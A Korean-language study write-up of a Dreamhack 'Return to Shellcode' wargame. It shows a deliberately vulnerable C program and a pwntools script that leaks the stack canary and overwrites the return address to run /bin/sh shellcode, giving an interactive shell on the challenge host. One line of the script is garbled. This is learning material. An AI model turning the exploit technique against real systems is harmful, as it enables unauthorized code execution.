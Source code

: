 # Exploit Tech: Return to Shellcode

Return to Shellcode 실습 내용도 포함되어 있음.  


**r2s.c 파일**

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

처음 보이는게 

```c
int main() {
  char buf[0x50];
	...
	read(0, buf, 0x100);
	...
	gets(buf);
```

buf의 크기보다 더 큰 값을 read하고 있다

buf에 bin/sh 로 가는 셀코드를 넣고 50바이트에 맞춰서 다른값을 넣고

카나리값을 덮어씌운뒤

리턴 주소를 buf 주소로 바꿔두면 될 것 같다

![image](https://github.com/user-attachments/assets/3290865b-7d63-42b5-982f-18df3de339cf)

우선 실행시켜보면 buf 주소와$rbp와 버퍼사이에 

96바이트 크기가 할당되어있다는 걸 알 수 있다  

<br>
(틀린답임 뒤에 정정된 내용이 나옴)

80바이트는 buf  
8바이트는 카나리   
8바이트는 리턴 주소   
가 있을 것이므로 첫번째 입력에서 buf의 카나리값을 얻고 두번째 입력에서 buf의 카나리값을 덮어씌우기로 한다
(지금부턴 맞는 말)  

혼자서 풀어보다가  
카나리를 어떻게 받는지 잘모르겠어서 강의록을 보고 풀었는데

checksec을 통해 보호기법을 알수있다는것과

 생각보다 긴 코드가 나와있었다

```python
#!/usr/bin/env python3
# Name: r2s.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = remote('host3.dreamhack.games',21102)

context.arch = "amd64"

# get information about buf
p.recvuntil(b"buf: ")
buf = int(p.recvline()[:-1], 16)
print("Address of buf : ", hex(buf))

p.recvuntil(b"$rbp: ")
buf2sfp = int(p.recvline())
buf2
cnry = buf2sfp - 8

print("buf <=> sfp : ", buf2sfp) # distance
print("buf <=> canary : ", buf2cnry) # distance

payload = b'a' * (buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b"Input:", payload)
p.recvuntil(payload)
cnry = u64(b"\x00" + p.recvn(7))
print("Canry : ", cnry)

sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b"a") + p64(cnry) + b"b" * 0x8 + p64(buf)

# gets() receives input until "\n" is received
p.sendlineafter(b"Input:", payload)

p.interactive()
```

buf 의 주소를 받고

rbp와의 거리도 받고

buf2sfp에는 buf와 sfp와의 거리를

buf2cnry에는 buf와 cnry와의 거리를 넣어던뒤

페이로드에 buf2cnry 에 1을 더한 쓰레기값을 넣는다 (1바이트는 널문자니까)

그러면 원래 출력되야할 기존 입력값이 아닌 카나리 값이 출력되는데 그 값을 받아서 다음 입력 때 사용하는 것이다 (둘 다 buf 에 넣는거니까 카나리값이 동일)

bin/sh 로 접근하는 셀코드를 만들어주고 페이로드에 넣어준다

그리고 위에 잘못 이햐한 부분이 있는데

buf와 sfp와 거리가 96바이트이고

buf와 canary와 거리가 88바이트인걸 봐선 

80바이트 크기의 buf

8바이트 카나리

8바이트 sfp

8바이트 리턴주소

이렇게 구성되어있는거같다

코드를 실행해보면
![image](https://github.com/user-attachments/assets/d1f67e23-72a5-4f7c-a447-e03fd353c058)

잘 나온다.
